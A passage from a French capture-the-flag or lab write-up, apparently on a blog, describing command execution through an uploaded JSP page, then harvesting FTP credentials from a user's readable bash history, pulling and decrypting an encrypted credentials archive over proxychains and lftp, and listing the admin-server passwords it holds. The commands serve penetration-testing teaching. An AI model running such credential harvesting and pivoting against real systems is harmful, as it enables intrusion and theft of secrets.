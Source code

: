 Le serveur nous répons avec `HTTP/1.1 201 Crée`, merveilleux, nous pouvons mainteant exécuter des commandes sur le serveur via la page http://10.0.0.0:8080/rookie.jsp.

## Un historique Bash mal nettoyé

Dans la TODO-list, nous avions vu le message suivant : _"Some credentials was found on project-server. Please can you check your home and delete sensible informations ? Thx"_.

En effet, les répertoires des utilisateurs ont été nettoyés, mais ont-ils été vraiment bien nettoyés ? Lorsque nous cherchons un peu sur le serveur, nous sommes mis sur la voie par les droits en lecture du fichier `/home/dcloutier/.bash_history` (-rw-r--r--), seul fichier `.bash_history` entre tous accessible en lecture. Et bingo, on y retrouve des identifiants FTP :

{{< highlight plaintext >}}
[...]

tar -czf - credentials.txt | openssl enc -e -aes256 -out credentials.tar.gz
tar -czf - credentials.txt | openssl enc -e -aes256 -out credentials.tar.gz --pass pass:daniel2019
ls -al
cat credentials.txt 
lftp -u 'backup,46t5r2e5t&2z!' admin-server
lftp -c 'open -u backup,46t5r2e5t&2z! admin-server; put -O / credentials.tar.gz' 
lftp -c 'open -u backup,46t5r2e5t&2z! admin-server; put -O / ~/credentials.tar.gz' 

[...]
{{< /highlight >}}

## Connexion FTP et récupération des identifiants

Grace aux identifiants ainsi trouvés, nous pouvons utiliser le compte **backup** pour nous connecter au FTP sur serveur d'administration (`10.0.0.3`) et récupérer le fichier `credentials.tar.gz` que l'utilisateur **dcloutier** y a déposé :

{{< highlight bash >}}
host:~$ proxychains lftp -u 'backup,46t5r2e5t&2z!' 10.0.0.3
host:~$ openssl enc -d -aes256 -in credentials.tar.gz -out credentials.tgz --pass pass:daniel2019
host:~$ tar -xcvf credentials.tgz
host:~$ cat credentials.txt
{{< /highlight >}}

Nous obtenons enfin tous les sésames pour le serveur d'administration !

{{< highlight markdown >}}
CREDENTIALS 
=========== 
- Basic auth on http://admin-server:80 
   + Username : admin 
   + Password : zedc0rp2019! 

- Simple test account on http://admin-server:80 
   + Username : user 
   + Password : user-zedcorp-2019 

- Privileged test account on http://admin-server:80 
   + Username : admin 
   + Password : admin-zedcorp-2019 
